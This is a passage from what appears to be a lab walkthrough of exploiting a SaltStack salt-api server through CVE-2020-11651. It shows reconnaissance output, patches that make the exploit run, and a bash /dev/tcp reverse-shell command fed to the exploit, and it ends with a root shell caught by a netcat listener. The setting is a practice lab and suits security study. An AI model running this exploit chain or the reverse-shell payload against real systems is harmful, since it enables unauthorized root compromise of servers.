 ```bash
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.16.1
< Date: Mon, 21 Dec 2020 20:36:04 GMT
< Content-Type: application/json
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Expose-Headers: GET, POST
< Vary: Accept-Encoding
< Allow: GET, HEAD, POST
< Access-Control-Allow-Credentials: true
< Access-Control-Allow-Origin: *
< X-Upstream: salt-api/3000-1
< 
* Connection #0 to host 192.168.120.121 left intact
{"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}

The response contains an interesting header, revealing that a SaltStack Rest API is listening on that port:

 X-Upstream: salt-api/3000-1

Exploitation
CVE-2020-11651

Based on the version listed in the header (3000-1) we discover an available remote code execution exploit.

Once we download the exploit, we discover that salt doesn’t support Python 3.8 and Kali won’t let us install packages under Python 3.7. Let’s tweak the exploit to address this issue.

kali@kali:~$ python3 -m venv env
...
kali@kali:~$ . ./env/bin/activate
(env) kali@kali:~$ pip install distro salt
...
(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py

Now we can start a netcat listener on port 4505 and launch the exploit.

(env) kali@kali:~/machines/twiggy$ python3 exploit.py 192.168.120.121 master 'bash -i >& /dev/tcp/192.168.118.2/4505 0>&1'
/home/kali/env/lib/python3.8/site-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated since Python 3.3, and in 3.9 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.120.121
Retrieved root key: 8tnPuz4Fk+nH4c2CVW3/1BBbWofubqMZGJ1gkEkiB6WzlnyqQ7muDw3dbtKNwTMjUU6IcNFD9VY=
Got response for attempting master shell: {'jid': '20200518074808085260', 'tag': 'salt/run/20200518074808085260'}. Looks promising!

This grants us a reverse shell as root.

kali@kali:~$ nc -lvp 4505
listening on [any] 4505 ...
192.168.120.121: inverse host lookup failed: Unknown host
connect to [192.168.118.2] from (UNKNOWN) [192.168.120.121] 33584
bash: no job control in this shell
[root@localhost root]# id
```